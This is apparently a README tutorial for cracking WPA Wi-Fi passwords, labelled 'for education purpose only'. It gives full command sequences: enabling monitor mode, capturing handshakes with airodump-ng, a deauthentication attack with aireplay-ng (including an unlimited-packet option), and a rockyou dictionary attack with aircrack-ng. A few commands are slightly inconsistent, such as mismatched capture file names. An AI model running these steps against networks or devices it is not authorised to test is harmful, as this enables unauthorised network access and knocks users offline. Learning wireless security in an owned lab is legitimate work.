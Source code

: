 # Hacking Wireless Network (For Education Purpose Only)
- Author: `Anthoniraj Amalanathan`
- WIFI Device Name: TP-Link TL-WN725N 
- Amazon Link: https://www.amazon.in/gp/product/B008IFXQFU
- Driver:  Realtek r8188eus 
- Linux OS: Bodhi Linux 6.0

## Concepts
- IEEE 802.11 Standard
- WIFI Access Point or Router
- Wi-Fi Protected Access (WPA)
- 4 Way Handshake (Using EAPOL Packet)

## Terminologies
- Wireless Access Point (WAP)
- Service Set Identifiers (SSIDs) 
   - BSSID - Base SSID (MAC Address)
   - ESSID - Extended SSID (Name of the AP)
- EAPOL-Key frame (Extensible Authentication Protocol over LAN)

## Pre-requisite
- Linux Kernel < 6.0
- Compatiable WIFI Adapter
   - Auto / Managed 
   - Monitor
- VirtualBox USB Support (Link WIFI Adapter through USB)

## Install Required Packages
- sudo apt install build-essential
- sudo apt install wireless-tools
- sudo apt install git
- sudo apt install aircrack-ng
- sudo apt install dkms bc
- sudo apt install linux-headers-$(uname -r)

## Basic Commands required for WIFI Pentest
- lsusb : List ALL USB Devices
- ip addr : Check WIFI Adapters
- iwconfig : Display WIFI Adapters
- iw list : Check Adapter Status
- uname -r : Display the kernel version
- rm -rf file_or_folder : Delete file or folder

## Disable Existing WIFI Driver
- echo 'blacklist r8188eu'| sudo tee -a '/etc/modprobe.d/realtek.conf'
- Reboot the OS

## Install r8188eus Driver (Kernel Version Support <=6.0)
- git clone https://github.com/aircrack-ng/rtl8188eus.git
- cd rtl8188eus/
- make && sudo make install
- sudo reboot

## Enable Monitor Mode 
- sudo airmon-ng check kill
- sudo ip link set wlxd037459b00e5 down

### Rename WIFI Adapter to Short Name 
- sudo ip link set wlxd037459b00e5 name wlan0

### Enable Monitor Mode
- sudo iw dev wlan0 set type monitor
- sudo ip link set wlan0 up

## Cracking WIFI Password
- sudo airodump-ng wlan0
- sudo airodump-ng --bssid  0A:A5:B3:E5:7E:E0 --channel 1 --write capturepacks wlan0

## Deauthentication Attack
- sudo aireplay-ng --deauth 1 -a  0A:A5:B3:E5:7E:E0 wlan0 
- Note: Use --deauth 0 for infinite packets

## Dictionary Attack
- Download Rockyou Dictionary
   - wget https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
- The following command will reveal the password (Depends on the password strength It may take long time to crack the WIFI Password)
   - sudo aircrack-ng testpacks.cap -w rockyou.txt 

## Frame Injection
- aireplay -9 wlan0

## Take the Password Strenght Test
- https://www.passwordmonster.com/
